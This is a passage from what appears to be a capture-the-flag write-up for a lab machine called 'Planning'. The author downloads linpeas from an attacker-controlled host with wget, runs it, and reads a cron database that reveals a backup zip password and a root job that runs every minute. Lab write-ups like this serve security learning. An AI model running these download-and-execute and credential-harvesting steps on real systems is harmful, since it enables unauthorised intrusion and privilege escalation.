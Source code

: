 Then download/transfer it in the target machine:
```ssh-access
enzo@planning:~$ wget http://10.10.14.59:8090/linpeas
--2025-07-19 17:12:12--  http://10.10.14.59:8090/linpeas
Connecting to 10.10.14.59:8090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 82 [application/octet-stream]
Saving to: ‘linpeas’

linpeas                                                    100%[========================================================================================================================================>]      82  --.-KB/s    in 0.002s  

2025-07-19 17:12:13 (51.2 KB/s) - ‘linpeas’ saved [82/82]
```

After downloading, change its permission and run it as shown below:
```ssh-access
enzo@planning:~$ ls
linpeas.sh  user.txt
enzo@planning:~$ chmod +x linpeas.sh
enzo@planning:~$ ls
linpeas.sh  user.txt
enzo@planning:~$ ./linpeas.sh
```

Running linpeas, I got the following information:
![Planning image](../Pasted%20image%2020250720163141.png)


Reading it and we got the following:
```ssh-access
enzo@planning:~$ cat /opt/crontabs/crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I checked linpeas again to look for open ports which might be hosting a local web server and I found this:
![Planning image](../Pasted%20image%2020250720163714.png)
